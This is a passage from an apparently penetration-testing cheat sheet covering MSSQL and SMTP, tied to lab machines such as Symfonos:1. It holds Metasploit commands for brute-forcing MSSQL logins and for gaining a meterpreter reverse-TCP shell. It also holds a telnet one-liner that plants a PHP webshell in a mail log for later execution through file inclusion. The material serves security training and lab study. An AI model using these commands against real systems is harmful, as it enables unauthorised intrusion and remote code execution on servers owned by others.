 

**Bruteforce MsSql**

```
msf auxiliary(mssql_login) > use auxiliary/scanner/mssql/mssql_login
```



**Gain shell using gathered credentials**

```
msf > use exploit/windows/mssql/mssql_payload
msf exploit(mssql_payload) > set PAYLOAD windows/meterpreter/reverse_tcp
```



**Log in to a MsSql server:**

```
# root@kali:~/dirsearch# cat ../.freetds.conf
[someserver]
host = $ip
port = 1433
tds version = 8.0
user=sa

root@kali:~/dirsearch# sqsh -S someserver -U sa -P PASS -D DB_NAME
```

[SQL](https://guide.offsecnewbie.com/5-sql)

### &#x20;<a href="#smtp" id="smtp"></a>

### SMTP <a href="#smtp" id="smtp"></a>

#### &#x20;<a href="#things-to-remember" id="things-to-remember"></a>

#### Things to remember: <a href="#things-to-remember" id="things-to-remember"></a>

* Used to send mail
* Always do users enumeration
*   Mail is stored (in linux) in /var/log/mail/username. If you have LFI maybe you can connect to mail server and input webshell.

    * `telnet $ip 25 EHLO rowbot MAIL FROM:rowbot@test.com RCPT TO:$usernamehere DATA Subject: shell <?php system($_GET['cmd']); ?> . quit`

    `symfonos:1 box`

Completed machine with the above vulnerability: Symfonos:1

Commands [https://serversmtp.com/smtp-commands/](https://serversmtp.com/smtp-commands/)

```
HELO
It’s the first SMTP command: is starts the conversation identifying the sender server and is generally followed by its domain name.

EHLO
An alternative command to start the conversation, underlying that the server is using the Extended SMTP protocol.

MAIL FROM
With this SMTP command the operations begin: the sender states the source email address in the “From” field and actually starts the email transfer.

RCPT TO
```